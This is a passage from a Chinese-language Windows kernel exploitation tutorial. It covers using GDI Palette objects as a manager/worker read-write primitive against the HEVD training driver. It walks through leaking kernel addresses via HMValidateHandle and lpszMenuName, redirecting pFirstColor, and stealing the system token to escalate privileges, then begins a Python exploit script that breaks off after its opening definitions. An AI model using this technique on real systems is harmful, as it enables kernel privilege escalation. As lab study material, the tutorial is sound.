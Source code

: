 具体的攻击过程类似Bitmap Abuse，可以用以下图片来总结：

[![](https://p1.ssl.qhimg.com/t01eeece971d766ce7c.png)](https://p1.ssl.qhimg.com/t01eeece971d766ce7c.png)

Palette A、Palette B分别是Manager object、Work object，通过Palette A修改Palette的pFirstColor指针，最后调用GetPaletteEntries、SetPaletteEntries实现对内核数据的任意读写



## 0x003 How to Exploit it?

关于利用过程大体上跟以往的几篇文章类似，这里不再赘述，简单说一下过程：

首先取得`HMValidateHandle`的调用地址，计算得到`lpszMenuName`的地址，该指针指向`“PALETTE结构”(预测)`，以下过程跟v1703上利用一致

```
pIsMenu --&gt; pHMValidateHandle --&gt; pWnd = HMValidateHandle(hWnd,1)，返回tagWND对象指针，用户桌面堆地址 
--&gt; pSelf=pWnd+0x20，得到内核桌面堆地址、kernelTagCLS=pWnd+0xa8，得到内核TagCLS地址
--&gt; ulClientDelta=pSelf-pWnd，这是桌面堆用户模式映射与内核映射的偏移
--&gt; userTagCLS=kernelTagCLS-ulClientDelta，取得用户TagCLS地址，lpszMenuName位于0x90偏移处(该处指向paged pool)
```

后续利用过程：

1.依次分配hManager、hWorker两个Palette object，并利用UAF的方法预测得到各自pFirstColor指针的内核地址；

2.将hManager的pFirstColor指针指向hWorker的pFirstColor指针的存放地址，利用HEVD模块的任意写漏洞；

3.查询获得当前进程与system进程的token；

4.调用API SetPaletteEntries、GetPaletteEntries，将system进程的token写入当前进程；

重要的几个偏移记得修改一下

[![](https://p0.ssl.qhimg.com/t013f3ebca7386a705f.png)](https://p0.ssl.qhimg.com/t013f3ebca7386a705f.png)

枚举获得HMValidateHandle调用地址

[![](https://p5.ssl.qhimg.com/t01727c53a3cae3d5ec.png)](https://p5.ssl.qhimg.com/t01727c53a3cae3d5ec.png)

重用`lpszMenuName`释放的内存，预测得到hManager、hWorker的`pFirstColor`指针内核地址

[![](https://p2.ssl.qhimg.com/t018bd1136f0eaf2091.png)](https://p2.ssl.qhimg.com/t018bd1136f0eaf2091.png)

完整的EXP

```
import ctypes, struct, sys, os, win32con, time
from ctypes import *
from ctypes.wintypes import *
from win32com.shell import shell

ntdll = windll.ntdll
kernel32 = windll.kernel32
gdi32 = windll.gdi32
user32 = windll.user32

def debug_print(message):
    """ Prints message in terminal and debugger """
    print message
    kernel32.OutputDebugStringA(message + "n")


class SYSTEM_MODULE_INFORMATION(Structure):
    _fields_ = [("Reserved", c_void_p * 2),
                ("ImageBase", c_void_p), 
                ("ImageSize", c_long),
                ("Flags", c_ulong),
```